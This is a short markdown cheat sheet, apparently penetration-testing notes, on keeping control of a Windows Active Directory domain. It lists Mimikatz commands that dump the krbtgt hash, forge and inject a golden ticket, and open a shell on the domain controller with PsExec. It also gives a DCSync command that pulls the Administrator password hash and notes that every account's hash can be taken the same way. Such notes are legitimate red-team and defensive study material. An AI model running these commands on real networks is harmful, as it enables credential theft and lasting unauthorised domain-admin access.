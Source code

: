 # Persistance


## Golden Tickets

If we have access to the DC with privilege rights we can grab the krbtgt password hash in order to create our own self-made custom TGTs, or golden tickets.

**Step 1:** Substract krbtgt's NTLM hash:

```bash
privilege::debug

lsadump::lsa /patch
```

**Step 2:** In the client machine, create a golden TGT ticket, inject it (/ptt) and open a cmd:

```bash
kerberos::golden /user:fakeuser /domain:$DOMAINNAME /sid:$SID /krbtgt:$KRBTGTHASH /ptt

misc::cmd
```

**Step 3:** Access the DC though PsExec:

```bash
PsExec.exe \\$DCHOSTNAME cmd.exe
```

_____

## DC Synchronization

Since there could be more than 1 DC in order to achieve redundancy, if we have access to a member of the Domain Admins group (without logging in to the DC) we can use the following technique in order to perform a replication from a specific object.

#### Replicate built-in AD Administrator account

```bash
mimikatz.exe

lsadump::dcsync /user:Administrator
#The output will show the NTLM hash of the Administrator account
```

**Note:** We can request a replication update to obtain the password hashes of every account in AD.
